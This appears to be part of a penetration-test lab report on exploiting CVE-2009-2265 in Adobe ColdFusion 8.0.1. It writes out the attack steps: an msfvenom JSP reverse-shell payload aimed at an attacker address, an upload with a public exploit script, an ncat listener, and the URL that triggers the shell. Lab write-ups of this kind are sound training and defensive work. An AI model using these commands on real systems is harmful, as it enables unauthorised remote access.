 **Vulnerability Explanation:** The server was found to be running Adobe Cold Fusion 8.0.1, this software/version is susceptible to the CVE-2009-2265, a vulnerability where an attacker can upload arbitrary files and execute them once uploaded.
By making use of a public exploit for this CVE, a low privilege shell was gain.

After network enumeration was conducted, manual web enumeration took place, finding with it the mentioned software-version.

![Directory listing](../artic/screenshots/web-enum1.png){ width=50% }

![Adobe Coldfusion dochome](../artic/screenshots/web-enum2.png){ width=70% }

![Directory listing CFIDE](../artic/screenshots/web-enum3.png){ width=70% }

![Adobe Coldfusion login](../artic/screenshots/web-enum4.png)

**Vulnerability Fix:** Upgrade of Adobe Cold Fusion to a newer version and hardening of permissions on the user running the service.

**Severity:** \textcolor{red}{Critical}.

**Proof of Concept Code Here:** On the attacker machine, in one terminal a reverse shell was generated and uploaded into the server by using the public exploit for CVE-2009-2265 (link below).

The code for the public exploit used can be found in the next link:

```texinfo
https://repo.theoremforge.com/pentesting/tools/blob/master/Uncategorized/exploit/windows/CVE-2009-2265_coldfusion.8.0.1/upload.py
```

Reverse shell is created and uploaded by using the exploit:

```texinfo
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -o reverse.jsp
python upload.py 10.10.10.11 8500 reverse.jsp
```

In a second terminal on the attacker machine, a listener on port 443 was started with:

```texinfo
sudo rlwrap ncat -lvnp 443
```

Finally, in a web browser on the search bar was entered the url the exploit gave as output:

```texinfo
http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

![Reverse shell and user.txt](../artic/screenshots/local-proof.png){ width=70% }

**user.txt Proof Screenshot**

The screenshot proving this is in the section of privilege escalation.

**user.txt Contents**

```texinfo
0265****************************
```
